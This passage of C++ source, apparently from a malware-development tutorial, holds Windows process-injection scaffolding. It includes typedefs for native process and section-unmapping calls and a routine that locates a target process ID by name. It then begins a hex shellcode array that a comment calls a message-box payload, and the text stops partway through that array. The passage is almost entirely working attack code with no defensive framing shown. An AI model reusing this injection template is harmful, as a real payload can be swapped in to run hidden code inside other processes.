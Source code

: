 ```cpp
  ACCESS_MASK             AccessMask,
  POBJECT_ATTRIBUTES      ObjectAttributes,
  PCLIENT_ID              ClientID
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE                 ProcessHandle,
  PVOID BaseAddress
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  // 64-bit meow-meow messagebox without encryption
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
```